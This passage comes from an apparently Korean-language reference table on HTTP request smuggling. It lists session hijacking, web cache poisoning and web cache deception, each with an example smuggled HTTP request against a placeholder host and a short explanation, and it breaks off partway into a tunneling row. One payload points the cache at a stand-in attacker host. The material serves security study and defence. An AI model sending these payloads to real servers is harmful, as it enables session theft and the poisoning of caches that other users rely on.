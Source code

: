 </table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Session Hijacking</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked 
<br>
0 
<br>
GET /admin HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim_session_token</code></pre></td>
      <td>HTTP Request Smuggling을 통해 다른 사용자의 요청과 응답을 가로채어 세션 토큰이나 민감한 정보를 탈취하는 공격으로 프록시/로드밸런서와 백엔드 서버 간의 파싱 차이를 이용해 타 사용자의 응답을 자신의 요청에 대한 응답으로 받을 수 있게된다.</td>
      <td>[A], [C]</td>
    </tr>
    <tr>
      <td>Web Cache Poisoning</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked 
<br>
0 
<br> 
GET /static/innocent.js HTTP/1.1
Host: evil-attacker.com</code></pre></td>
      <td>Request Smuggling을 통해 캐시 서버에 악성 응답을 저장시켜, 이후 정상 사용자들이 해당 캐시된 악성 콘텐츠를 받도록 하는 공격으로 프론트엔드 캐시와 백엔드 서버의 요청 해석차이를 악용한다.</td>
      <td>[2], [A]</td>
    </tr>
    <tr>
      <td>Web Cache Deception</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com  
Content-Length: 35
Transfer-Encoding: chunked 
<br> 
0  
<br> 
GET /profile/user.css HTTP/1.1
Host: vulnerable-website.com</code></pre></td>
      <td>캐시 서버로 하여금 동적이고 민감한 콘텐츠를 정적 파일로 오인하게 만들어 캐시하도록 유도하는 공격입니다. Request Smuggling을 통해 URL 경로를 조작하여 개인정보가 포함된 페이지를 캐시에 저장시킨다.</td>
      <td>[6], [D]</td>
    </tr>
    <tr>
      <td>HTTP Request Tunneling</td>
      <td><pre><code>POST /search HTTP/1.1
Host: vulnerable-website.com